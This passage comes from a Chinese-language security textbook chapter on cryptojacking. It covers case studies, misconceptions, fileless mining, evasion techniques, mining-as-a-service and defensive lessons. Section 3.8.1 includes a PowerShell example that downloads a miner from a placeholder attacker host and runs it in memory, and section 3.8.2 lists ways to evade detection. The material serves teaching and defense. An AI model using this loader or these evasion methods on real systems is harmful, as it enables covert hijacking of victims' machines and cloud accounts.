- **资源监控**：监控 Kubernetes 集群中的资源创建和使用情况

### 案例 3：Smominru 僵尸网络（2017-2021）

| 维度 | 详情 |
|------|------|
| 感染规模 | 超 50 万台 Windows 服务器 |
| 利用漏洞 | EternalBlue、SQL 注入 |
| 挖矿方式 | Monero 挖矿 + 数据窃取双目标 |
| 月收益 | 约 $300 万（高峰期） |
| 清理难度 | 极难（具备多级持久化机制和自更新能力） |

**攻击特点：**
- **多目标**：同时挖矿和窃取数据（如比特币钱包文件）
- **自更新**：具备自更新能力，可以远程更新挖矿程序
- **多级持久化**：使用多种持久化手段（注册表、计划任务、服务）
- **反检测**：具备反检测能力，可以隐藏进程和网络连接

### 案例 4：2023 年 AWS 凭证泄露挖矿潮

**事件概述：**
2023 年，安全研究人员发现大量 AWS Access Key 在 GitHub 公共仓库中泄露。攻击者利用自动化脚本扫描这些泄露的凭证，并在受害者的 AWS 账户中创建 GPU 实例进行挖矿。

**攻击规模：**
- **泄露凭证数量**：超过 10,000 个 AWS Access Key
- **受影响账户**：超过 5,000 个 AWS 账户
- **创建实例数量**：超过 50,000 个 GPU 实例
- **总费用**：超过 $500 万美元

**攻击手段：**
- **自动化扫描**：使用自动化脚本扫描 GitHub 公共仓库中的 AWS Access Key
- **快速利用**：发现凭证后 30 秒内创建 GPU 实例
- **费用控制**：设置预算告警，费用达到阈值后自动销毁实例
- **痕迹清理**：删除 CloudTrail 日志，销毁实例

**教训与启示：**
- **凭证管理**：不要将 AWS Access Key 提交到 GitHub 公共仓库
- **预算告警**：设置 AWS Budgets 告警，及时发现异常费用
- **权限最小化**：遵循最小权限原则，限制 IAM 用户权限
- **定期轮换**：定期轮换 AWS Access Key，减少泄露风险

### 案例 5：2024 年 Docker Hub 镜像投毒事件

**事件概述：**
2024 年，安全研究人员发现 Docker Hub 上出现大量恶意镜像，这些镜像名称与官方镜像极度相似，但包含挖矿程序。

**攻击手段：**
- **镜像名称仿冒**：使用与官方镜像相似的名称（如 `alpine:3.14.2` vs `alpine:3.14.2-miner`）
- **Dockerfile 投毒**：在 Dockerfile 中隐藏挖矿程序下载指令
- **CI/CD 管道投毒**：在 CI/CD 管道中注入挖矿程序

**影响范围：**
- **受影响镜像**：超过 100 个恶意镜像
- **拉取次数**：超过 10,000 次
- **受影响用户**：超过 1,000 个开发者

**教训与启示：**
- **镜像来源验证**：只从官方或可信来源拉取镜像
- **镜像扫描**：使用 Trivy、Clair 等工具扫描镜像漏洞
- **固定镜像摘要**：使用 SHA256 摘要而非标签
- **CI/CD 安全**：加强 CI/CD 管道安全，防止投毒

## 3.7 常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "挖矿劫持只影响个人用户" | 实际上企业云环境才是最大目标，单个被劫持的 GPU 实例一天可产生 $500+ 费用 |
| "关闭浏览器就没事了" | 服务器端劫持即便关闭浏览器，挖矿进程依然在后台持续运行 |
| "我的服务器配置低，不会被劫持" | 劫持是规模游戏——1000 台低配机器的算力总和远大于 1 台高配机器 |
| "杀毒软件能完全防御挖矿劫持" | 挖矿行为与正常计算在行为上难以区分，许多无文件挖矿杀毒软件无法检测 |
| "云服务商会自动帮我检测和阻断" | 云服务商虽有检测机制（如 GuardDuty），但依赖用户开启，且无法替代自身的安全基线 |
| "加密货币挖矿只是技术问题" | 加密货币挖矿涉及法律、合规、取证等多个方面，需要综合应对 |
| "只要不挖矿就没事" | 即使不主动挖矿，也可能被攻击者利用进行挖矿，需要主动防护 |
| "云费用异常只是配置问题" | 云费用异常可能是安全事件的早期信号，需要立即调查 |

## 3.8 进阶延伸

### 3.8.1 无文件挖矿技术

无文件挖矿（Fileless Cryptojacking）避免在磁盘上留下二进制痕迹，完全在内存中运行：

1. **PowerShell 内存加载**：通过 `Invoke-Expression` 从远程服务器下载并直接在内存中执行挖矿脚本
2. **WMI 持久化**：使用 Windows Management Instrumentation 事件订阅实现自动重启
3. **注册表加载**：将挖矿负载编码后存储在注册表键中，启动时从注册表读取并加载
4. **COM 对象劫持**：通过劫持 COM 对象实现持久化和执行
5. **DLL 侧加载**：通过 DLL 侧加载技术将挖矿代码注入到合法进程中

```powershell
# 无文件挖矿简化示例（仅用于理解原理）
$minerUrl = "https://attacker.example.com/xmrig.exe"
$scriptBlock = {
  param($url)
  $wc = New-Object System.Net.WebClient
  $data = $wc.DownloadData($url)
  # 调用 Windows API 在内存中执行
  $assembly = [System.Reflection.Assembly]::Load($data)
  $entryPoint = $assembly.EntryPoint
  $entryPoint.Invoke($null, (, [string[]] ('', '')))
}
Start-Job -ScriptBlock $scriptBlock -ArgumentList $minerUrl
```

**无文件挖矿的检测难点：**
- **无磁盘痕迹**：挖矿程序不在磁盘上，传统杀毒软件难以检测
- **内存执行**：挖矿程序在内存中执行，难以通过文件系统分析检测
- **合法工具滥用**：使用 PowerShell、WMI 等合法工具进行攻击，难以区分正常和恶意行为

**无文件挖矿的检测方法：**
- **内存分析**：使用 Volatility 等工具分析内存转储，检测异常进程和模块
- **行为监控**：监控 PowerShell、WMI 等工具的使用行为，检测异常活动
- **网络流量分析**：分析网络流量，检测矿池连接和挖矿通信
- **EDR 解决方案**：使用 CrowdStrike Falcon、Microsoft Defender for Endpoint 等 EDR 解决方案检测无文件挖矿

### 3.8.2 逃逸技术

- **CPU 使用率时间分片**：挖矿进程运行 3 秒、休眠 7 秒，绕过 CPU 告警阈值
- **进程名伪装**：将矿工程序伪装为常见系统进程名（如 `svchost.exe`、`kworker/0:0`）
- **动态域名切换**：硬编码多个备选矿池域名，当前域名被封后自动切换
- **TLS 隧道封装**：将 Stratum 协议流量封装在标准 HTTPS 隧道内，规避深度包检测
- **进程注入**：将挖矿代码注入到合法进程中，隐藏挖矿活动
- **Rootkit 隐藏**：使用 Rootkit 技术隐藏挖矿进程、文件和网络连接
- **反调试技术**：检测调试器，检测到则暂停挖矿或终止进程

### 3.8.3 挖矿即服务（MaaS）商业模式

**挖矿即服务（Mining-as-a-Service, MaaS）** 是一种将挖矿能力作为服务提供的商业模式。攻击者不再需要自己维护挖矿基础设施，而是通过购买 MaaS 服务进行挖矿。

**MaaS 服务类型：**
1. **算力租赁**：租赁 GPU 或 CPU 算力进行挖矿
2. **挖矿脚本托管**：托管挖矿脚本，自动部署和管理
3. **矿池代理**：代理矿池连接，隐藏真实挖矿地址
4. **漏洞利用服务**：提供漏洞利用工具和服务，帮助攻击者入侵系统

**MaaS 的市场规模：**
- **2023 年市场规模**：约 $5000 万美元
- **主要服务商**：多个地下市场提供 MaaS 服务
- **价格范围**：$10-$100/天（根据算力和服务类型）

**MaaS 的风险：**
- **法律风险**：MaaS 服务可能涉及计算机犯罪，服务商可能面临法律追责
- **技术风险**：MaaS 服务可能被安全厂商检测，导致服务中断
- **经济风险**：加密货币市场波动大，MaaS 收益不稳定

### 3.8.4 加密货币挖矿的经济学深度分析

**挖矿收益的数学模型：**

```text
挖矿收益 = (算力 / 全网算力) × 区块奖励 × 币价 - 电力成本 - 硬件折旧
```

**关键经济参数：**
- **算力**：挖矿设备的计算能力（Hashes per Second）
- **全网算力**：整个加密货币网络的总算力
- **区块奖励**：每挖出一个区块获得的加密货币奖励
- **币价**：加密货币的市场价格
- **电力成本**：挖矿设备的电力消耗成本
- **硬件折旧**：挖矿设备的硬件折旧成本

**经济可行性分析：**
- **Monero 挖矿**：RandomX 算法 CPU 友好，普通服务器即可挖矿
- **Bitcoin 挖矿**：SHA-256 算法 ASIC 主导，普通 CPU 无法竞争
- **Ethereum 挖矿**：Ethash 算法 GPU 友好，但 2022 年 Ethereum 转向 PoS 后无法挖矿

**加密货币市场的波动性：**
- **币价波动**：加密货币价格波动大，挖矿收益不稳定
- **算力竞争**：全网算力增长快，单个挖矿设备的收益下降
- **政策风险**：加密货币监管政策变化可能影响挖矿收益

### 3.8.5 加密货币挖矿的未来趋势

**技术趋势：**
- **量子抗性**：随着量子计算发展，加密货币需要量子抗性算法
- **AI 辅助挖矿**：使用 AI 优化挖矿策略和资源配置
- **绿色挖矿**：使用可再生能源进行挖矿，降低环境影响
- **去中心化挖矿**：去中心化挖矿协议，降低中心化矿池风险

**监管趋势：**
- **全球监管加强**：各国政府加强加密货币监管，可能影响挖矿收益
- **环保政策**：环保政策可能限制高能耗挖矿活动
- **反洗钱法规**：反洗钱法规可能影响加密货币交易和挖矿收益

**市场趋势：**
- **挖矿即服务**：MaaS 市场持续增长，降低挖矿门槛
- **算力租赁**：算力租赁市场增长，提供灵活算力资源
- **加密货币多样化**：新加密货币不断涌现，提供新的挖矿机会

## 3.9 总结



加密劫持作为网络犯罪中最"低风险、稳收益"的变现方式之一，将持续存在。对防御者而言，关键在于：

1. **筑牢基础防线**：凭证管理、漏洞修复、网络隔离是成本最低、效果最显著的防御手段
2. **建立异常基线**：只有知道"正常"是什么样子，才能识别"异常"
3. **启用自动化检测**：人工巡检跟不上攻击速度，必须有基于规则的自动化监控
4. **做好预算告警**：对云环境而言，费用异常往往比安全告警更早暴露入侵事实
5. **重视法律合规**：加密劫持涉及法律、合规、取证等多个方面，需要综合应对
6. **持续学习更新**：加密货币挖矿技术和攻击手段不断演进，需要持续学习和更新防御策略